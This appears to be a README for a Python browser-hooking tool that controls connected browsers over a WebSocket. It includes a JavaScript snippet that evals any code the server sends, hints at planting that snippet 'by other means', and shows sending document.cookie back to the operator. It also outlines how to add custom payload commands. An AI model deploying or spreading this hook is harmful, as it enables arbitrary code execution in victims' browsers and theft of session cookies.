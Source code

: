 ## Usage
If you run `python main.py`, then run in the CLI:

`>listen`

It will listen for connections. 
To connect a browser, run this in the console (or by other means? :) ):
```
var socket = new WebSocket('ws://localhost:1337', 'chat'); 
socket.onmessage = function (event) {
    eval(event.data);
}
```

Then, in the CLI:

`>control`

`>[the number label of the session you wish to control]`

Then you will be prompted to run any Javascript you want.
To send data back to the server, you can use `socket.send`. E.g.:

```javascript
socket.send(document.cookie);
```

### Custom Commands

See commands.py for implementations of custom commands for the Javascript interpreter. They support multiple command arguments and are easy to implement!

```python
# commands.py
class CommandExample(CMD):

    def __init__(self):
        super(CommandExample, self).__init__(
              "ExampleTitle",
              "commandcall",
              "Description of this example commmand")

    def get_payload(self):
        # You have access to self.argv[] for the argument array (self.argv[0] is the call)
        return "[Javascript to run]"

